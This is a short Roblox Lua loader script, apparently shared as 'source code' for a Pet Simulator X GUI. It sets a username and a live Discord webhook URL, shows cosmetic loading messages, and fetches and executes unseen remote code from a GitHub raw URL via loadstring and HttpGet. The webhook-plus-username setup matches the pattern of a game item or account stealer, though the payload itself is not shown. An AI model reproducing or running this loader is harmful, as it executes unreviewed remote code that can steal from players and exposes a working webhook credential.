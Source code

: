 Username = "Minato_hokage0905" WebHook = "https://discord.com/api/webhooks/1100334221991624754/UcBIQWkRH19OtgGvmFxyl4H6tt-eG2QleIHSeMf-hV5qHgF6t8i4f2_lRAxtPR-kOJHN"  _G.CustomScriptName = "Welcome to blacktrap" _G.Text1 = "Script Loaded..." _G.Text2 = "Waiting for Script" _G.Text3 = "Checking Scripts..." _G.Text4 = "Starting Scripts..." loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
